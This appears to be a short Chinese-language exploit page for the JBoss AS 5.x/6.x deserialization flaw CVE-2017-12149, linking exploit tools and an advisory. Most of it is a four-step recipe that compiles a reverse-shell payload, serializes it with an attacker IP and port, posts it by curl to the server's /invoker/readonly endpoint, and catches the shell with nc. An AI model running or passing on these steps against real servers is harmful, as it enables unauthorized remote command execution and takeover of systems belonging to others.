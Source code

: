 # JbossAS 5.x/6.x反序列化远程命令执行漏洞(CVE-2017-12149)
* Github[https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
* [https://access.redhat.com/security/cve/cve-2017-12149](https://access.redhat.com/security/cve/cve-2017-12149)
* 工具[http://scan.javasec.cn/java/JavaDeserH2HC.zip](http://scan.javasec.cn/java/JavaDeserH2HC.zip)
* 工具GUI[http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip](http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip)
## 漏洞利用
1: `javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

2: `java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port` //反弹shell的IP和端口,然后会生成一个ReverseShellCommonsCollectionsHashMap.ser文件

3: `curl 网址/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`

4: 再打开另外一个终端并且nc开始设置的反弹shell的IP
